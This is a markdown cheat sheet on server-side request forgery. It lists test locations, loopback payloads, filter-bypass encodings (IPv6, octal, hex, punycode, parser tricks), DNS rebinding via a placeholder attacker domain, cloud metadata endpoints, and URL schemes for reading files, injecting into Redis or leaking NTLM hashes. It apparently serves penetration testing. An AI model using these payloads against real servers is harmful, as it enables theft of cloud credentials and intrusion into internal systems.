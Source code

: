 SSRF (Server-Side Request Forgery) arises when a server makes internal or external requests to third-party services without properly validating the URL schema. This can allow an attacker to access internal infrastructure, perform port scanning, and potentially leak sensitive metadata like AWS or GCP instance credentials.

## When to Test
* File fetchers (?url=)
* PDF/image converters
* Webhooks, integrations
* Import functions
* -based redirections
* Open Graph preview or link preview features
* Via Referrer 

# Common Payloads
```
http://127.0.0.1
http://127.0.0.1:80
http://localhost
127.0.0.1
localhost
http://127.1
http://127.0.0.1:{PORT}
http://[::]:80/
```
# Common Bypasses:
With [::], abuses IPv6 to exploit
 - http://[::]/
 - http://[::]:80/
 - http://0000::1/
 - http://0000::1:80/
   
With domain redirection, useful when all IP addresses are blacklisted
 - http://localtest.me
 - http://test.app.127.0.0.1.nip.io
 - httP://test.app.127.0.0.1.xip.io

**Case Sensitivy:**
  - HttP://127.0.0.1/
  - hTTp://LoCALHosT

Against weak parsers (these go to http://127.2.2.2:80)

* http://127.1.1.1:80@127.2.2.2:80/
* http://127.1.1.1:80@@127.2.2.2:80/
* http://127.1.1.1:80:@@127.2.2.2:80/
* http://127.1.1.1:80#@127.2.2.2:80/

**DNS ReBinDing:**

DNS rebinding is a technique where a domain (e.g., attacker.com) resolves to a public IP on the first request, then rebinds to a private/internal IP (like 127.0.0.1) on the second. This tricks the server/browser into making requests to internal services, bypassing IP-based protections.

Use case:
Bypass SSRF filters that only allow external domains.

Example:
attacker.com → 123.123.123.123 → 127.0.0.1

**Punycode Varients:**
* http://①②⑦.⓪.⓪.①/
* http://⓵⓶⓻.⓪.⓪.⓵/

**IPv6 Format**

Use IPv6-mapped IPv4 address:

http://[::ffff:127.0.0.1]/

**Octal**

Each octet in octal (prefix 0):

0177.0000.0000.0001

**Hexadecimal**

Each octet in hex (prefix 0x):
0x7f.0x00.0x00.0x01

Or full IP as one hex:
0x7f000001

# Targets of Interest
## Cloud metadata:

* AWS: http://169.254.169.254/latest/meta-data/
* GCP: http://metadata.google.internal/computeMetadata/v1/
* Azure: http://169.254.169.254/metadata/instance

## Internal services:

* http://localhost:8000/
* http://redis:6379
* http://internal-dashboard/

**Different Protocals To exfiltrate Information:**

* file:// → read local files
* ftp:// → trick server into sending file contents
* gopher:// → send custom TCP payloads (e.g., Redis injection)
* smb:// → exfiltrate NTLM hash
* dict:// → detect open ports
* http:// → access internal web apps and metadata services
* ldap:// → interact with internal LDAP services
* telnet:// → connect to telnet ports
* mysql:// → trigger DB connections if drivers are enabled



  




